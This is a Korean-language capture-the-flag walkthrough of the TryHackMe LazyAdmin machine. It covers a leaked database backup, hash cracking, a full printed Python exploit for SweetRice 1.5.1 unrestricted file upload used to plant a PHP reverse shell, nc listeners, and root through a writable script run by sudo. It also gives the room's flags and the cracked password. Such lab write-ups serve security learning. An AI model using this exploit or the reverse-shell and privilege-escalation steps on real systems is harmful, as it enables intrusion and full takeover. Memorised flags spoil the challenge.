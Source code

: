 # LazyAdmin

## Workstation
- Virtual Box : VMware Workstation 16 Pro
- OS : kali-linux-2022.3

## Walkthrough
### Task 1 | Lazy Admin

Have some fun! There might be multiple ways to get user access.

Note: It might take 2-3 minutes for the machine to boot

![machine](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/machine.png)

---

* What is the user flag?

> THM{63e5bce9271952aad1113b6f1ac28a07}

우선 nmap으로 열려있는 포트를 스캔한다.

![nmap](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/nmap.png)

22번 ssh와 80번 http 서버가 열려있다.

80번 http 서버를 접속하면 default 페이지가 나온다.

![http](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/http.png)

그럼 추가로 디렉터리를 검색한다.

![gobuster](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/gobuster.png)

`/content` 디렉터리가 나왔다.

![content](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/content.png)

SweetRice 라는 웹사이트?가 있다. 하지만 더 얻을 것이 없으므로 추가로 /content 디렉터리 안에 있는 디렉터리를 찾는다.

![gobuster_content](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/gobuster_content.png)

content 안에 많은 디렉터리들이 있다.

모든 디렉터리를 확인하다가 `/inc` 에서 `lastest.txt` 에서 버전정보를 얻었다.

![lastest](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/lastest.png)

그리고 `mysql_backup/` 디렉터리 안에 sql 파일이 있었다. 이 파일에서 sql 정보를 얻을 수 있으니 다운받는다.

![backup](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/backup.png)

이 파일에서 sql 정보를 얻을 수 있으니 다운받는다.

![curl](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/curl.png)

내용을 확인하던 중 manager 계정과 passwd 해시된 암호를 확인했다.

![sql](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/sql.png) 

해시된 암호를 풀기 위해 `hashcat`을 사용한다.

hash 파일에 해시된 암호를 입력한다.

![hashcat](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/hashcat.png)

그럼 `manager` 계정의 암호 `Password123`을 얻었으니 `/content/as` 페이지로 들어가 로그인한다.

![login](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/login.png)

이제 SweetRice 1.5.1 의 취약점을 찾아본다.

Backup Disclosure 이란 취약점이 존재하는데 아까 본 `mysql_backup/` 디렉터리에 있는 파일과 같은 것 같다.

![search](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/search.png)

그럼 리버스 쉘을 얻기 위해 파일 업로드 취약점을 확인한다.

![upload](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/upload.png)

중간에 있는 `os.system('cls')` 부분은 주석처리 해준다. 이 명령어는 터미널을 깨끗하게 지워주는 명령어 인데 없어도 괜찮은 코드이다.

```
$ cat 40716.py                                           
#/usr/bin/python
#-*- Coding: utf-8 -*-
# Exploit Title: SweetRice 1.5.1 - Unrestricted File Upload
# Exploit Author: Ashiyane Digital Security Team
# Date: 03-11-2016
# Vendor: http://www.basic-cms.org/
# Software Link: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
# Version: 1.5.1
# Platform: WebApp - PHP - Mysql

import requests
import os
from requests import session

#if os.name == 'nt':
#    os.system('cls')
#else:
#    os.system('clear')
#   pass
banner = '''
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \\ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \\     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
'''

print(banner)


# Get Host & User & Pass & filename
host = input("Enter The Target URL(Example : localhost.com) : ")
username = input("Enter Username : ")
password = input("Enter Password : ")
filename = input("Enter FileName (Example:.htaccess,shell.php5,index.html) : ")
file = {'upload[]': open(filename, 'rb')}

payload = {
    'user':username,
    'passwd':password,
    'rememberMe':''
}



with session() as r:
    login = r.post('http://' + host + '/as/?type=signin', data=payload)
    success = 'Login success'
    if login.status_code == 200:
        print("[+] Sending User&Pass...")
        if login.text.find(success) > 1:
            print("[+] Login Succssfully...")
        else:
            print("[-] User or Pass is incorrent...")
            print("Good Bye...")
            exit()
            pass
        pass
    uploadfile = r.post('http://' + host + '/as/?type=media_center&mode=upload', files=file)
    if uploadfile.status_code == 200:
        print("[+] File Uploaded...")
        print("[+] URL : http://" + host + "/attachment/" + filename)
        pass                                                                                                                                                                                   
```

위에서 URL 입력 부분을 보면 host는 `/as/` 전을 URL을 입력하면 되는 것이고 파일은 php5 파일을 입력해야 한다.

그럼 리버스 쉘 파일을 복사한다. 이때 파일을 복사할 때 php5로 변경한다.

![php5](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/php5.png)

`//CHANGE THIS` 부분을 알맞게 변경한다.

![code](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/code.png)

모두 완료했으면 실행해 아래와 같이 입력하면 php5 파일이 `/attachment`에 업로드가 완료되었다고 한다.

![python](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/python.png)

그럼 `/attachment`로 이동해 리버스 쉘 파일을 시작하기 앞서 nc로 아까 설정한 5555포트로 리스닝해 놓는다.

```
sudo nc -lvnp 5555
```

그 후 `/attachment` 로 이동해 php5 파일을 눌러주면 다음과 같이 쉘을 얻을 수 있다.

![reverse](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/reverse.png)

![nc](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/nc.png)

user.txt를 찾아 플래그를 입력한다.

![user](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/user.png)

* What is the root flag?

> THM{6637f41d0177b6f37cb20d775124699f}

root 권한 획득을 위해 sudo 명령으로 실행 가능한 명령어를 확인한다.

![sudo](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/sudo.png)

perl 명령어로 backup.pl 파일을 패스워드 없이 root 권한으로 실행가능하다고 한다. 

그럼 `/home/itguy/backup.pl` 파일을 확인한다.

이 파일 안에서 다시 sh 명령어로 실행하는 /etc/copy.sh 파일이 있다.

이 파일을 확인해 보면 nc 명령어를 실행하는 코드가 있다. 이 코드를 `echo` 명령어로 내 아이피 주소와 포트로 변경해 준 후 다시 copy.sh 파일에 저장한다.

![pl](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/pl.png)

nc 명령어 실행을 위해 새로운 터미널을 열어 아까 설정한 6666번 포트로 리스닝한다.

```
sudo nc -lvnp 6666
```

리스닝시키고 다시 `sudo /usr/bin/perl /home/itguy/backup` 명령어를 사용하면 리버스 쉘을 얻을 수 있다.

root 권한을 획득했으니 플래그도 얻었다.

![root](https://github.com/jasperkim425/Walkthrough/blob/main/TryHackMe/LazyAdmin/image/root.png)
